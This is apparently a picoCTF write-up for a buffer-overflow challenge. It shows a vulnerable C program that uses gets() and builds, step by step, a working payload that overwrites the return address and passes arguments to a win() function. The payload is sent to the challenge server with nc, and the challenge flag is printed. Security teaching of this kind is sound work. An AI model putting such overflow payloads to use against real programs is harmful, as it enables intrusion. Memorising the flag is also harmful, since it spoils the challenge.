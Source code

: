 **Description**

Author: Sanjay C / Palash Oswal

Control the return address and arguments

Hints
(none)

**Tools**
This writeup is a large continuation of [buffer overflow 1](./binary/bufferoverflow1(200).md).
This is **highly** recomended to view first
Please see this writeup if you don't understand the leadup to this point.

In this writeup and subsequent binary exploitation writeups, I will be using the tools [Ghidra](https://github.com/NationalSecurityAgency/ghidra), [GDB](https://en.wikipedia.org/wiki/GNU_Debugger), and an extension for GDB called [pwndbg](https://github.com/pwndbg/pwndbg).
This tools together provide excellent static and dynamic analysis of a binary. 
Another tool to look at is radare2, however I did not use it for this writeup.
This competition is an excellent place to learn how to use these programs, however I will not be teaching them in entirety.

**Research**

Lets open the source and see what we need to get

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

This looks very similar to the last problem, except for one thing. On running the win funtion, we need to make sure the funciton gets its arguments as well. 
Lets look back to the stack diagram given in the last writeup to see what we may need to do to accomplish this.

![Image](https://www.secpod.com/blog/wp-content/uploads/2013/12/Untitled123.png)

Arguments are stored after EIP, so the next subsequent bytes should be our 2 arguments that need to be passed into the function as parameters. The arguments as shown in the source are ```0xcafef00d``` and ```0xf00df00d```

**Exploit**

Make sure to mark vuln as executable with ```chmod +x vuln```

Set up GDB with

```gdb vuln```

add your breakpoints at the locations that will help you solve the problem

```layout asm``` might be helpful to look for assembly that you want to set a breakpoint at to look at the memory at that time. 
The ```s``` command can step though your program one instruction at a time, or type a number after s to step multiple instructions.

Your varible is 100 characters long, and then after that you have the rest of your code
This command should try and jump to 0x63636363:

```r <<< $(python2 -c 'print("a"*100 + "b"*12 + "cccc")')```

Now, print the locaiton of win()

```
pwndbg> p *(win)
$1 = {<text variable, no debug info>} 0x8049296 <win>
```

Lets go to ```0x8049296```

```r <<< $(python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08")')```

Now, this doesn't get us our flag, as we still dont have our arguments put in however to verify that this works we can see that our test flag is in memory at EAX.

EBP is the function pointer, and variables and arguments are based off of that
In this case, the assembler says that 0xcafef00d should be at EBP + 8 and 0xf00df00d should be at EBP + 12
EBP points to the spot in memory of EIP
Variable, extra space, EIP, EBP + 4, EBP + 8, EBP + 12

Lets set our arguments now

```r <<< $(python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08" + "cccc" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")')```

This gets us our test flag printed!
Lets test it outside of GDB

```python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08" + "cccc" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")' | ./vuln```

Finally, lets get the flag from the challenge server

```python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08" + "cccc" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")' | nc saturn.picoctf.net 56595```

This gets us our flag!
It is: ```picoCTF{argum3nt5_4_d4yZ_eb489c7a}```
